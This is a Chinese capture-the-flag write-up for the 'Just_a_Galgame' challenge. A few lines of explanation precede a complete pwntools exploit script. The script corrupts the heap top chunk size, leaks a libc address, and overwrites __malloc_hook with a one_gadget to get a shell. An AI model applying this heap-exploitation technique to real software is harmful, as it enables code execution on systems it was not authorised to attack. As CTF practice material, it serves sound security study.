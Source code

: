 在这里，我们通过越界写，改top chunk的size，但是需要对齐到内存页，看看一开始的时候top chunk是多大  
![](g1.png)
那我们改成0xd41就彳亍了  
接着通过地址之间的差计算出index，直接打malloc_hook为one_gadget就彳亍
### exp

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './Just_a_Galgame' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add():
    p.recvuntil(">> ")
    p.sendline("1")
def edit(index,content):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil("idx >> ")
    p.sendline(str(index))
    p.recvuntil("movie name >> ")
    p.send(content)
def movie():
    p.recvuntil(">> ")
    p.sendline("3")
def show():
    p.recvuntil(">> ")
    p.sendline("4")
def leave(content):
    p.recvuntil(">> ")
    p.sendline("5")
    p.recvuntil("QAQ\n")
    p.send(content)

def exp():
    add()
    edit(0,p64(0) + p64(0xd41))
    movie()
    add()
    show()
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - 0x3ec2a0
    log.success("libc_base==>" + hex(libc_base))
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    onegg = libc_base + 0x4f3c2 #0x4f365 # 0x10a45c
    #gdb.attach(p)
    leave(p64(malloc_hook - 0x60))
    edit(int((0x4040A0-0x404060)/8),p64(onegg))
    add()
    p.interactive()
exp()
```
